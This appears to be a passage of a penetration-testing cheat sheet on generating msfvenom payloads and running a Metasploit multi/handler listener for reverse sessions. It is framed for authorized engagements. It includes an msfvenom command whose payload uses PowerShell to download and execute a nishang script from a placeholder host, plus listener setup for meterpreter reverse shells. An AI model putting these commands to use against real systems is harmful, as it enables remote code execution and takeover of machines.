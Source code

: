 
```bash
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX (New-Object Net.WebClient).DownloadString('http://<IP>/nishang.ps1')\"" -f python -o nishang_loader.py
```

Break long commands across lines when documenting for readability.

---

## Listener / MultiHandler setup (Metasploit)

1. Start `msfconsole`:
    

```bash
msfconsole
```

2. Configure handler:
    

```bash
use exploit/multi/handler
set payload <payload/name>            # e.g. windows/meterpreter/reverse_tcp
set LHOST <IP>
set LPORT <PORT>
set ExitOnSession false               # keeps handler running for multiple sessions
exploit -j                            # run as job (background)
```

3. View jobs/sessions:
    

```bash
jobs
sessions -l
sessions -i <id>
```

---

## Practical tips & best practices

- Prefer `-o filename` for direct output instead of `> filename` (clearer and cross-platform).
    
- Test payloads in an isolated lab VM before using them in engagements.
    
- Use `--list-options` to see required and optional parameters for payloads.
    
- Keep Metasploit and msfvenom updated (`msfupdate` or distro package manager).
    
- Consider payload size and shelltype — web upload forms may restrict file size or content.
    
- Use HTTPS for hosted stagers and verify listener reachability (NAT/port forwarding) before deployment.
    
- Document every action when performing authorized testing.
    

---
